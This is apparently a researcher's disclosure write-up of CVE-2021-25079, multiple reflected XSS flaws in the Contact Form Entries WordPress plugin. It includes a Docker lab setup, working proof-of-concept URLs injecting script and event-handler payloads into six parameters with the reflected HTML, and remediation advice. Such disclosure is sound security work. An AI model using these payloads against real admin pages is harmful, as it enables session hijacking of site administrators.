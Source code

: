+++
title = 'CVE-2021-25079 – Multiple Reflected XSS in Contact Form Entries plugin'
date = 2021-05-01T18:54:32+02:00
draft = true
tags = ["sec", "docker", "dsp", "hacking", "cve"]
+++



After the post from last week about CVE-2021-25080 I received another CVE from a similar work on the same plugin. In this case, I found multiple XSS in Contact Entries Plugin: let’s dive into the vulnerability!
## Introduction
CRM Form Entries is a plugin that automatically saves form submissions from several WordPress forms:
[Database for Contact Form 7, WPforms, Elementor forms](https://wordpress.org/plugins/contact-form-entries/)

## Setup environment
I set up a Docker environment containing WordPress with the vulnerable plugin:
```
version: '3.8'
  services:
    wp:
      image: 'dockersecplayground/wp:5.6'
      stdin_open: true
      tty: true
      ports:
        - '11080:80'
        - '9000:9000'
      depends_on:
        - db
      environment:
        - WORDPRESS_DB_HOST=db
        - WORDPRESS_DB_USER=dsp
        - WORDPRESS_DB_PASSWORD=dsp
        - WORDPRESS_DB_NAME=wordpress
      volumes:
        - './xdebug.ini:/usr/local/etc/php/conf.d/xdebug.ini'
    db:
      image: 'dockersecplayground/mysql_dsp:latest'
      stdin_open: true
      tty: true
      environment:
        - MYSQL_DATABASE=wordpress
        - MYSQL_USER=dsp
        - MYSQL_PASSWORD=dsp
        - MYSQL_RANDOM_ROOT_PASSWORD=1
  networks: {}
```

I usually use VS Code to analyze the source code; it is great as it is possible to attach to running containers by using the [Docker plugin](https://code.visualstudio.com/docs/containers/overview) and [Remote Containers plugin](https://marketplace.visualstudio.com/items?itemName=ms-vscode-remote.remote-containers)

## XSS Vulnerability Description

`form_id` param of `vxcf_leads` administrator page is vulnerable to a Reflected Cross-Site-Scripting vulnerability.

## First Evidence
The following request:
```
GET /wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=desc&orderby=fir+GET /wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=desc&orderby=fir+
```

returns the list of saved entries in the database.
- `form_id` value is reflected in <input> tag. 
- `form_id` parameter is not sanitized, so it is possible to inject arbitrary values.

The following request:


```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5e1kpc%22+onmouseover%3Dalert%281%29+ne97l&status&tab=entries&search&order=desc&orderby=fir+ 
```

Allows to inject `onmouseover` inside the input form. 

```
<input class="hide-column-tog" name="cf_5e1kpc\" onmouseover=alert(1) ne97l-vxvx-vxurl-hide" type="checkbox" id="cf_5e1kpc\" onmouseover=alert(1) ne97l-vxvx-vxurl-hide" value="cf_5e1kpc\" onmouseover=alert(1) ne97l-vxvx-vxurl" checked='checked' />Source</label><label>
```

By moving the mouse inside the click element, the vulnerability is triggered. Even if the vulnerability seems to require the user to move the mouse on the input element, it is possible to improve the attack by just injecting a “style” section that expands the input element with large width and height. In this way, when the user clicks on the link, javascript code is executed. 

## Second Evidence

`status` param is vulnerable to most dangerous XSS attack: just send the following request  

```
http://example.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status=b9zrb--%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3Eg482f&tab=entries&search&order=asc&orderby=file-438&field&time&start_date&end_date   
```

will execute XSS vulnerability.

## Third Evidence
`end_date` has the same as Evidence 2: 
```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status=&tab=entries&search=&order=asc&orderby=file-438&field=&time=&start_date=&end_date=onobw%22%3e%3cscript%3ealert(1)%3c%2fscript%3ez2u4g 
```

## Other evidences
`order`, `orderby` and `search` parameters are also vulnerable to XSS:  the following request: 

```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=descxg31c%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fd5p60&orderby=fir+ 
```

Is reflected in hidden parameter `<input type=”hidden” name=”order” value=”descxg31c”accesskey=”x”onclick=”alert(1)”//d5p60″ />`

The following request: 

```
http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&form_id=cf_5&status&tab=entries&search&order=desc&orderby=fir%20ihj17%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fv9tdt
```

is reflected in hidden input: 

```
<!-- wp:paragraph --><p><em> &lt;input type="hidden" name="orderby" value="fir ihj17"accesskey="x"onclick="alert(1)"//v9tdt" /></em></p><!-- /wp:paragraph --><!-- wp:paragraph --><p><em>search param</em>: <em><a href="http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&amp;form_id=cf_5&amp;status=&amp;tab=entries&amp;" target="_blank" rel="noreferrer noopener">http://dsp.com:11080/wp-admin/admin.php?page=vxcf_leads&amp;form_id=cf_5&amp;status=&amp;tab=entries&amp;</a>search=e67x3%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22oakfc&amp;order=asc&amp;orderby=file-438&amp;field=&amp;time=&amp;start_date=&amp;end_date=<br></em></p><!-- /wp:paragraph -->
```

## Recommendations for Pentesters
The following vulnerability has been found through [Burp Suite Scanner](https://portswigger.net/burp)
I have explored all the website links manually, then I have executed Burp Scanner that found the Reflected Cross-Site Scripting vulnerability.

Burp Scanner is optimal when you have the source code as you can deploy it in the local environment and do not have performance issues.

When you analyze a remote website, maybe it could be not as effective, and you should properly choose the fuzzing payloads.

You can explore where the input is reflected manually, or by scripting through a proxy, such as [MITM Proxy](https://mitmproxy.org/)


## Recommendations for Developers
Sanitize the user input by using safe libraries, or HTML escaping libraries. In WordPress it is possible to use esc_html() function (https://developer.wordpress.org/reference/functions/esc_html/).

Otherwise, OWASP offers a great API developer: https://owasp.org/www-project-enterprise-security-api/https://owasp.org/www-project-enterprise-security-api/









































